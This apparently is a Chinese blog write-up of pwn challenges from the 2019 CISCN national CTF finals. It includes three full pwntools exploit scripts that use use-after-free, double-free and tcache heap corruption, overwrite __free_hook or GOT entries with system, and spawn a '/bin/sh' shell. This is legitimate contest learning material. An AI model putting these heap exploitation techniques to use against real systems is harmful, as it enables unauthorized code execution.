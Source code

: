 ```yaml
---
title: 成都摸鱼记.md
date: 2019-07-29 22:03:24
tags: "pwn"
cover: /img/5e568d5c56a51.jpg
---
```

去成都摸了两天鱼。满打满算从开始打pwn到现在刚刚十个月，打这么大的国家级比赛还是第一次，本来指望着不垫底就好，没想到居然水到一个国一，虽然含金量比以前低了不少。  
趁着对题目还有印象，写个WP好了。
____
# Day 1 
## Ciscn-c02 EscapeVM
一直不会VM，现在还是不会。  
## Ciscn-c05 inode-heap
比赛后才了解到`open`返回的是一个文件描述符，而非文件指针。进程维护了一个文件描述符表，相关操作查表得到文件指针后进入下一步。不过我在调试中并没有在堆区找到对应的`IO-File`结构体。  
```python
from pwn import *
r = process('./inode_heap')
# context.log_level = 'debug'


def add(type, number):
    r.sendlineafter('which command?\n> ', '1')
    r.sendlineafter('TYPE:\n1: int\n2: short int\n>', str(type))
    r.sendlineafter('your inode number:', str(number))


def delete(type):
    r.sendlineafter('which command?\n> ', '2')
    r.sendlineafter('TYPE:\n1: int\n2: short int\n>', str(type))


def show(type):
    r.sendlineafter('which command?\n> ', '3')
    r.sendlineafter('TYPE:\n1: int\n2: short int\n>', str(type))


add(1, 0)
delete(1)
add(2, 0)
add(2, 0)
add(2, 0)
add(2, 0)
delete(1)
show(1)
r.recvuntil('your int type inode number :')
s = r.recvline()
heap = int(s)+0x100000000
print hex(heap)
add(2, 1)
delete(2)
add(1, int(s))
delete(2)
add(2, int(s)-16)
add(2, 1)
add(2, 0x91)
add(1, int(s))
for i in range(7):
    delete(1)
    add(2, 0)
delete(1)
show(1)
r.recvuntil('your int type inode number :')
s = r.recvline()
libc = int(s)+0x100000000
print hex(libc)
add(2, int(s)-560)
add(1, int(s)-560)
add(1, 666)
r.interactive()
```
## Ciscn-c06
程序只有`Add`与`Delete`两个操作，很容易就看得到一个UAF
![](/img/e8s6eS.png)  
但是保护全开加上无leak，又限制了分配区块大小。没办法搞出libc地址，然后就整了个野路子。   
![](/img/e8yo9A.png)  
在堆区可以发现这样一个巨他妈大的的东西，来历不明，好像是C++才会有的？  
我们面对的主要问题是没有足够大小的chunk进`Unsorted Bin`，partial overwrite都搓不出来，于是我产生了一个大胆的想法。  
![](/img/e86avt.png)   
我把这个巨他妈大的chunk free掉了。  
接着partial write，把`__free_hook`malloc到手，接着就完了。  
赛后问了一圈发现居然都是打的`IO-File`，所以这是个非预期？  
exp如下
```py
from pwn import *
r = process('./pwn')
# r = remote('172.16.9.21', 9006)


def add(index, size, s):
    r.sendlineafter('choice >', '1')
    r.sendlineafter('input the index', str(index))
    r.sendlineafter('input the size', str(size))
    r.sendafter('now you can write something', s)


def delete(index):
    r.sendlineafter('choice >', '2')
    r.sendlineafter('input the index', str(index))


add(0, 0x20, 'aaa')
r.recvuntil('gift :')
s = r.recv(14)
tofree = int(s, 16)-0x11c20
delete(0)
delete(0)
add(1, 0x20, p64(tofree+0x10))
add(2, 0x20, 'aaa')
add(3, 0x20, 'aaa')
add(4, 0x40, 'aa')
# add(15, 0x40,)
delete(3)
delete(4)
delete(4)
add(5, 0x40, p64(tofree+0x10))
add(6, 0x40, 'aaa')
add(7, 0x40, 'aaa')
add(8, 0x40, '????')
r.recvuntil('gift :')
s = r.recv(14)
libc = int(s, 16)-4111520
freehook = libc+4118760
system = libc+324672
print hex(freehook)
add(9, 0x60, 'aa')
delete(9)
delete(9)
add(10, 0x60, p64(freehook))
add(11, 0x60, '???')
add(12, 0x60, p64(system))
add(13, 0x50, '/bin/sh\0')
delete(13)
r.interactive()
```
## Ciscn-c07
没看
## Ciscn-c08 
水题，index为0x10时会让chunk偏0x10个字节，造假chunk就完事了。  
不过依然有一个问题，没办法leak，我选择了劫持got表并把`free`改成`puts`，然后再改成`system`，似乎大家又都是`IO-File`做的？  
exp
```py
from pwn import *
# r = process('./pwn')
r = remote('172.16.9.21', 9008)
context.log_level = 'debug'


def add(index, size, s):
    r.sendlineafter('your choice: ', '1')
    r.sendlineafter('index: ', str(index))
    r.sendlineafter('size: ', str(size))
    r.sendafter('content: ', s)


def delete(index):
    r.sendlineafter('your choice: ', '2')
    r.sendlineafter('index: ', str(index))


def edit(index, s):
    r.sendlineafter('your choice: ', '3')
    r.sendlineafter('index: ', str(index))
    r.sendafter('content: ', s)


# add(1, 0xe0, '??')
add(1, 0x10, '??')
r.recvuntil('low 12 bits: 0x')
s = r.recv(3)
base = int(s, 16)
print hex(base)
over = base+0x10
add(15, 0xe0-over % 0x100, '??')
add(16, 0x70, p64(0)+p64(0x4f1))
add(3, 0x70, 'gg')
add(4, 0x70, 'gg')
add(5, 0x70, 'gg')
add(6, 0x70, 'gg')
add(7, 0x70, 'gg')
add(8, 0x1f0, '/bin/sh\0')
add(8, 0x20, '/bin/sh\0')
add(9, 0x20, 'aa')
delete(0)
add(10, 0x60, '??')
add(11, 0x70, '??')
delete(3)
edit(0xb, p64(0x602010))
add(1, 0x70, 'aa')
add(13, 0x70, p64(0)+p64(0x400790))
delete(4)
s = r.recv(6)
libc = u64(s.ljust(8, '\0'))-0x3ebca0
print hex(libc)
system = libc+324672
edit(0xd, p64(0)+p64(system))
delete(8)
# gdb.attach(r)
r.interactive()
```
# Day 2
## Ciscn-c16
LCTF2018原题，比赛时心态崩了居然没做出来


## Ciscn-c17
整型溢出加Double Free加shellcode，太水了